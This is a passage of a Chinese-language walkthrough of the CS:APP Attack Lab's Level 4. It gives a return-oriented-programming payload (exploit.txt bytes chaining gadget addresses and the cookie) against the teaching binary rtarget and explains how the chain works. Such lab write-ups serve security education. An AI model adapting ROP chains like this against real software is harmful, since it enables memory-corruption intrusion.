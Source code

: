 ##### 3.4.7 运行结果

{{< image src="assets/level-3.webp" caption="Level 3 运行结果" >}}

### Level 4: Return-Oriented Programming

#### 4.1 本关目标

同 Level 2。区别在于 `rtarget` 程序开启了地址随机化（Address Space Layout Randomization, ASLR）和栈不可执行机制（No-eXecute, NX），但同时也新增了辅助用的 gadget farm。这次我们需要进行 ROP 攻击，利用源程序已有的代码来构造我们需要的指令序列。

#### 4.2 本关解答

`exploit.txt` 中的内容：

```text
c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

#### 4.3 解题思路

同 [2.3](#23-解题思路) 节，目标是将 `cookie` 的值传给 `%rdi` 寄存器，并最终返回到目标函数 `touch2`。

由于没有指令可以将一个特定的立即数直接传给某个寄存器，这里我们可以将这个立即数先保存在栈中，然后利用 `popq` 指令弹栈传给某个寄存器，此后再利用 `movq`、`movl` 等指令在寄存器间互相传递。

为了使指令能够连成一个序列，我们需要每句指令后都紧接着一句 `ret` 指令（对应机器码 `c3`）。先提前将下一条指令的地址保存在栈中，然后利用 `ret` 指令弹栈传给 `%rip`，从而实现跳转。

需注意，由题目要求，只允许跳转到以下位置：

- 函数 `touch1`、`touch2`、`touch3` 的地址
- 注入代码的任意位置
- gadget farm 中的某一个 gadget（即 `start_farm` 和 `end_farm` 之间的地址）

#### 4.4 解题过程

##### 4.4.0 总览

原本的汇编代码：

```asm
mov    $0x59b997fa,%rdi
push   $0x4017ec
ret
```

我们逐句进行改写。

##### 4.4.1 第 1 句指令

